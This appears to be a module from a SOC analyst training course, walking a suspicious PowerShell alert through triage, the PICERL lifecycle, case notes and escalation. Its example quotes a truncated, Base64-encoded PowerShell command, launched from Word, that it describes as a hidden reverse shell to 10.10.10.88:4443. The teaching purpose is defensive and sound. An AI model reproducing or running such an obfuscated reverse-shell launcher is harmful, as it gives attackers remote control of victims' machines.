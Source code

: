 ```yaml
---
title: "06: The Anatomy of an Investigation"
nav_order: 7
---
```


## Part 1: The First 5 Minutes: Triage and Prioritization

**Goal:** To learn how to perform "triage" on a new alert to quickly determine if it's a real fire, a false alarm, or something in between.

### Key Concepts (The Theory)

- **Triage:** The process of sorting new alerts based on severity and priority to ensure the most critical threats are handled first.
- **Alert Fidelity:** The trustworthiness of the alert source. An alert from your EDR for "Known Ransomware" is high-fidelity. An alert for "User logged in from a new country" is lower fidelity, as it could be legitimate travel.
- **Severity vs. Priority:**
  - **Severity:** How bad the event _could_ be (e.g., High, Medium, Low). This is often set by the tool.
  - **Priority:** The order in which _you_ should handle it. This is determined by the analyst, combining severity with business context.

### The Initial Triage Checklist

When a new alert hits your queue, you should quickly try to make an initial assessment. Run through these questions:

1.  **What is the alert?** (e.g., "PowerShell spawned from non-standard process," "Impossible travel detected.")
2.  **What is the asset?** Is it a domain controller, a web server, or a standard user's laptop? An alert on a critical server is always a higher priority.
3.  **Who is the user?** Is it a standard user, a developer, an executive (VIP), or a domain administrator? An alert on an admin account is extremely high priority because their credentials grant broad access.
4.  **What is the assigned severity?** (High, Medium, Low).

- **Analyst Tip:** The goal of triage is not to solve the case but to decide what to work on next. A `Medium` severity alert on a domain controller is a higher priority than a `High` severity alert on a test machine that's scheduled to be wiped tomorrow. Context is everything.

---

## Part 2: The Investigation Lifecycle (PICERL)

**Goal:** To use the industry-standard PICERL framework to structure an investigation from start to finish. PICERL stands for **P**reparation, **I**dentification, **C**ontainment, **E**radication, **R**ecovery, and **L**essons Learned.

### A Running Example: The Suspicious PowerShell Alert

Let's use a single alert and walk it through the lifecycle:
**The Alert:** `High Severity: powershell.exe spawned by WINWORD.EXE on workstation WKS-1337, user: bart.simpson`

---

### **Phase 1: Identification**

This is where you confirm if the alert is a **True Positive** (a real incident) or a **False Positive**. This phase uses a mini-loop of Observe-Orient-Decide-Act.

1.  **Observe (Gather the raw facts):**

    - **Host:** WKS-1337
    - **User:** bart.simpson
    - **Process:** `powershell.exe`
    - **Parent Process:** `WINWORD.EXE`
    - **From the EDR logs, you pull the full command line:** `powershell.exe -nop -w hidden -enc JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQAwAC4AOAA4ACIALAA0ADQANAAzACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUA MwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAe...`

2.  **Orient (Give the facts context):**

    - The parent process is Word. This is highly suspicious. Word should not be launching PowerShell. This is a classic indicator of a malicious macro. **(T1566.001: Spearphishing Attachment)**
    - The `-enc` flag means the command is Base64 encoded. This is a common technique for **Obfuscated Files or Information (T1027)**.
    - You decode the Base64 string. It reveals a PowerShell reverse shell script trying to connect to IP `10.10.10.88` on port `4443`. This is a **Reverse Shell (T1059.001: PowerShell)**.
    - You check the destination IP `10.10.10.88`. It's an internal, non-routable IP. This suggests the attacker may already have a foothold inside the network and this is an attempt at **Lateral Movement (TA0008)**.

3.  **Decide (Form a hypothesis):**
    - This is a **True Positive**. The user likely opened a malicious Word document, which executed a macro to launch a PowerShell reverse shell, a common technique for **Execution (TA0002)**, attempting to connect to an internal C2 server.

---

### **Phase 2: Containment**

**Goal:** Stop the bleeding! Prevent the attacker from causing more damage.

- **Action:** Based on your decision, you take immediate action. Using your EDR console, you trigger the **"Isolate Host"** function for `WKS-1337`. This uses the EDR agent to block all network connections on the workstation _except_ for the connection back to the EDR management server, so you can still investigate it remotely.
- **Action:** You also temporarily disable the `bart.simpson` user account in Active Directory / Entra ID to prevent the attacker from using stolen credentials to log in elsewhere.

---

### **Phase 3 & 4: Eradication and Recovery**

**Goal:** Remove the attacker from the environment and restore the system to a known-good state. This is often handled by a different team.

- **Eradication:** The original malicious file (`phish.docx`) is deleted. Any other files or persistence mechanisms created by the attacker are removed.
- **Recovery:** The workstation is wiped and re-imaged from a clean, golden image. This is the only way to be 100% sure the attacker is gone. The user account is re-enabled with a new password.

---

### **Phase 5: Lessons Learned**

**Goal:** Improve your defenses so this doesn't happen again.

- A post-incident meeting is held. Questions to ask:
  - How did the malicious email get past our email security gateway?
  - Why was the user able to run macros?
  - Did our EDR alert quickly enough?
- **Outcomes:** You might create a new rule in the email filter to block similar attachments, or push a new policy to disable macros for most users.

---

## Part 3: Case Management and Escalation

**Goal:** To understand the importance of good documentation and know when to ask for help.

### A Good Case Note

Your notes should be clear enough that a teammate can pick up the investigation right where you left off.

> **14:32 UTC:** Initial alert triage. High-severity alert for PowerShell spawned from WINWORD.EXE on WKS-1337 (user: bart.simpson). Given the TTP, immediately began investigation.
>
> **14:35 UTC:** Pulled command line from EDR. Confirmed use of Base64 encoding (`-enc` flag).
>
> **14:37 UTC:** Decoded Base64 payload. Revealed PowerShell reverse shell attempting connection to internal IP `10.10.10.88:4443`.
>
> **14:38 UTC:** **Declared incident.** This is a True Positive.
>
> .
> **14:39 UTC:** **Containment:** Isolated host WKS-1337 via EDR console. Temporarily disabled user `bart.simpson` in AD.
>
> **14:40 UTC:** **Escalation:** Escalated ticket to Tier 2 Incident Response team for eradication and recovery. Notified SOC lead.

### When to Escalate

- As soon as you **declare an incident** (confirm a True Positive).
- If the alert involves a VIP user or a critical system (e.g., a domain controller).
- If you are about to take a significant action you are unsure about.
- If you are stuck for more than 15-20 minutes on the "Identification" phase. It's better to get a second pair of eyes than to let an attacker dwell in the network.
